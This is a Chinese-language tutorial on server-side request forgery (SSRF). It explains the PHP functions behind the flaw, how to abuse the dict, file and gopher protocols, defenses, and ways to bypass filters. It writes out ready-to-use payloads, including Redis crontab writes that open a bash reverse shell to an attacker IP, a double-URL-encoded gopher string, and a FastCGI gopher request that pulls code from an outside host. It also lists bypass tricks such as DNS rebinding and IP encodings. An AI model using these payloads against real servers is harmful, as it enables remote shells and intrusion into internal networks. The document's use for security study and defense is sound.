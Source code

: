# 大话SSRf



漏洞成因？

- fsockopen()
- curl_exec()
- file_get_contents()





漏洞利用?

利用不同的协议，低可信息探测，高可反弹shell

- dict:// 协议 可以通过这个协议来进行一个端口的探测，泄露软件版本信息

  - http://xxx.com?url=127.0.0.1:3306/info
  - 

- file:// 协议 任意文件的读取

  - 如果页面不回显那么这个协议就鸡肋了
  - dict协议有一个功能：dict://serverip:port/name:data 向服务器的端口请求 name  data，并在末尾自动补上rn(CRLF)。也就是如果我们发出dict://serverip:port/config:set:dir:/var/spool/cron/的请求，redis就执行了config set dir /var/spool/cron/ rn.用这种方式可以一步步执行redis  getshell的exp，执行完就能达到和gopher一样的效果。原理一样，但是gopher只需要一个url请求即可，dict需要步步构造。 
  - ‘[SSRF](http://www.91ri.org/17111.html) 

- gopher:// 万金油协议 可模拟GET 或者 **<u>POST</u>**

  - gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议。 

  - redis 任意文件写入从而 反弹shell（GET）:

    - 首先在端口探测的时候要是我们能够探测到6379端口存在，那么可以尝试redis的反弹shell

      因为redis的默认端口就是6379。其次，redis的可以通过传入%0a%0d来注入换行符，从而造成命令的分行

      探测到redis端口后，需要把弹shell的脚本写入 /etc/crontab 自启动项中

      ```
      set 1 "\n\n\n\n* * * * root bash -i >& /dev/tcp/xx.xx.xx.xx[这里是你自己的公网IP]/8888[这里是你监听的端口] 0>&1\n\n\n\n" config set dir /etc/config set dbfilename crontab save 
      ```

  - redis 反弹shell (POST):

    - 首先要获取bash脚本对redis发出的访问请求，要用socat进行端口转发，转发命令为： 

      ` socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 ` 

    - 改成适配gopher协议的url： 

      ```
      gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0
      a*/1 * * * * bash -i &gt;&amp; /dev/tcp/127.0.0.1/2333 
      0&gt;&amp;1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0ad
      ir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$
      10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aq
      uit%0d%0a
      ```

    - 再次urlencode

      ```
      gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d
      %250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20
      bash%20-
      i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d
      %250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250
      a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250
      d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilen
      ame%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2
      A1%250d%250a%244%250d%250aquit%250d%250a
      ```

    - 执行即可在/var/spool/cron/下生成一个名为root的定时任务，任务为反弹shell 

- 利用gopher协议对FastCGI 进行攻击

  在真实世界中，只要发现对方的 PHP FastCGI 是可以外连的话那就可以拿 shell
  所以使用 gopher 构造 FastCGI Protocol 访问本机的 9001 port 就可以任意代码执行

  ```
  Location: gopher://127.0.0.1:9001/x%01%01i%13%00%08%00%00%00%01%00%00%00%00%00%00%01%04i%13%00%8B%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/_www/index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%09%26PHP_VALUEauto_prepend_file%20%3D%20http%3A//orange.tw/x%01%04i%13%00%00%00%00%01%05i%13%00%00%00%00
  
  (使用 PHP_ADMIN_VALUE 把 allow_url_include 设成 on 以及新增 auto_prepend_file 到自己的网站)
  
  ```

  

- Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。 



除了上面协议的利用还还有：

对内网web应用进行指纹识别，通过访问默认文件实现; 

攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）; 

## SSRF的防御？

防御分两种：

1.打断从内到外的：

 -  对请求进行一个过滤，意味着如果服务端请求的是一个图片但是返回来一个html页面就选择不接受并且做记录
-  统一错误信息，避免进行信息探测
-  禁止30X跳转可以方式dict协议攻击redis

2.打断从外到内

 - 最常用的输入过滤

 - 只允许HTTP或者HTTPS协议，避免了其他协议的骚姿势利用

 - 限制URL白名单或者限制ip

   

### SSRF 一些绕过

- 127.0.0.1 可以转换为 `localhost` 

- Ip地址转换为短地址，网上自行搜索

- ip地址转化为八进制，十进制，十六进制的地址格式或者是整数格式

- 利用@符号来让服务器错误的解析

  - 例如www.baidu.com@192.168.1.1 会让后端以为访问的是www.baidu.com 实际访问192.168.1.1

- 利用服务器解析问题

  - 例如指向任意IP的域名
  - xip.io  10.0.0.1.xip.io   resolves to   10.0.0.1  
  - [www.10.0.0.1.xip.io](http://www.10.0.0.1.xip.io)   resolves to   10.0.0.1  
  - mysite.10.0.0.1.xip.io   resolves to   10.0.0.1  
  - foo.bar.10.0.0.1.xip.io   resolves to   10.0.0.1

- 使用跳转到ipv6地址

- **302 redirect 去绕过限制**

- **利用Enclosed alphanumerics** 

- 利用句号代替 .

- DNS重绑定

  - ```
        (1)、服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
    
        (2)、对于获得的IP进行判断，发现为非黑名单IP，则通过验证
    
        (3)、服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
    
        (4)、由于已经绕过验证，所以服务器端返回访问内网资源的结果。
    
    ```

  - 服务器获得参数解析发现参数正常，（我们限制了只允许外网）然后正常访问我们自己的IP

  - 访问后发现TTL=0(生存时间) 于是再次DNS解析，这次解析我们返回的确实内网地址

  - 因为验证已经通过了，所以服务端还是会访问内网的地址

